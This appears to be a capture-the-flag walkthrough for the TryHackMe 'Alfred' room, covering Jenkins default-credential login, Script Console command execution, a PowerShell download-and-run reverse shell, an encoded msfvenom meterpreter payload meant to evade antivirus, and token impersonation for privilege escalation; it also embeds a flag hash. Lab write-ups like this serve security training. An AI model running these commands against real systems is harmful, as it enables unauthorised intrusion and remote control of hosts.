 # <div align='center'>[Alfred](https://tryhackme.com/room/alfred)</div>
<div align='center'>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.</div>
<div align='center'>
  <img src='https://github.com/user-attachments/assets/335a1059-b792-4edc-a5e2-ea767b35e798' height='200'></img>
</div>

# Step 1: Recconance 
```
:~$ nmap -sV 10.10.219.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 20:35 IST
Nmap scan report for 10.10.219.84
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
1. The scan shows there are 3 ports open
* `80` with web service.
* `3389` useless
* `8080` jenkins running

The port number 80 as default let take a look

![image](https://github.com/user-attachments/assets/7483aad4-dbc8-4c4c-b387-ae7b2848ea25)

find nothing usefull here 

2. As the Jenkins version is outdated let take a look at it

![image](https://github.com/user-attachments/assets/84cdf8d0-1e7e-4d29-9853-e5010f586658)

Okay let try default credentials `admin:admin`

![image](https://github.com/user-attachments/assets/7ec80b49-388b-49d5-9c9d-af3ff0045f2d)

bingo ! im genious


# Step 2: Exploitation
After Scrollig for long i found a this in `Manage Jenkins` > There is `Script Console`

![image](https://github.com/user-attachments/assets/4a883914-a503-4df8-b551-98415f9cc72b)

After wasting some time i understand the:

let swape cmd and take a look at `C:` drive:

```
cmd = "cmd.exe /c dir"
println cmd.execute().text
```

![image](https://github.com/user-attachments/assets/08208f34-aedc-4bf8-b079-79792292dfb5)

We got some data Now can cast a reverse shell here but 1st we need a reverse shell 
```
git clone https://github.com/samratashok/nishang
```

Go to this directory 
```
cd nishang/Shells/
```

Now we need to pull our revrse shell from our system and place and execute that into target system for doing that in `Shell` directory open a python server to pull the reverse shell form it:
```
python3 -m http.server
```

![image](https://github.com/user-attachments/assets/ec758bd2-d1b0-4211-8d65-cf8fcf5eafc7)

Now Set up a `Netcat` listner on differet port:
```
nc -lnvp 1234
```
For reverse connection

Now we need to download this reverse shell into traget system
```
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-Listner-port"
println cmd.execute()
```

Like this:
```
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.14.127:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.14.127 -Port 1234"
println cmd.execute()
```

Got the Connection 

![image](https://github.com/user-attachments/assets/9e6bc915-db95-4347-bcd8-d57eeb0c8c3e)

# Step 3: Post Exploitation

## User flag.txt
```
cat 'C:\Users\bruce\Desktop\user.txt'
```
<!-- 79007a09481963edf2e1321abd9ae2a0 -->
![image](https://github.com/user-attachments/assets/d78864b1-d5c9-46fc-a42c-bec8cfbff9f8)


## Switching Shells
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-test.exe
```

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

Start Msfconsole
```
msfconsole -q
```
Start A TCP reverse Handler for connection
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp
```
Set Lhost
```
set LHOST your-thm-ip set
```
Set Lport
```
LPORT 5555
```
Start the Listner
```
run
```

First We need to download the our Payload in the Enemy system for doing that open new terminal where your playload is created in my case it `/home/user`
```
python3 -m http.server
```

Download using this command on cmd
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

![image](https://github.com/user-attachments/assets/4408c39f-2e4b-4662-abd9-33f0291d7937)

Let executt it
```
Start-Process "shell-test.exe"
```
![image](https://github.com/user-attachments/assets/ec6fbbcd-504b-4557-86e0-e49ed71d4b73)

Now Let Swape shell
```
shell
```
![image](https://github.com/user-attachments/assets/f52a258f-15aa-4005-b744-567a4465c22a)

Let Check for privillage
```
whoami /prive
```
![image](https://github.com/user-attachments/assets/c873e060-900e-4642-b150-32b0005d4af6)

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.

Enter: load incognito to load the incognito module in Metasploit. Please note that you may need to use the use incognito command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.

Press `ctrl`+`c` to exit shell and back to meterpreter

Let see which tokens are available
```
list_tokens -g
```
![image](https://github.com/user-attachments/assets/580e84f2-ddf3-4c5c-a265-50404dd99b3e)

We can see that the BUILTIN\Administrators token is available.

Let  impersonate the Administrators' token:
```
impersonate_token "BUILTIN\Administrators"
```

![image](https://github.com/user-attachments/assets/15dfdeb9-451f-4199-84b2-ab173774e818)

## Root Flag.txt

Let Migrate our permissions

to migrate check the running process

![image](https://github.com/user-attachments/assets/0ee6b838-9ec2-434e-aa7a-81c4f56eeb4b)

Let migrate to this service
```
migrate PID-OF-PROCESS
```
![image](https://github.com/user-attachments/assets/c1b0fc0a-a1f4-4769-8e52-1bf3016fda1f)

View Our Flag
```
type 'C:\Windows\System32\config\root.txt'
```

![image](https://github.com/user-attachments/assets/609af3d5-7e0b-43b4-a689-640cbde2695e)
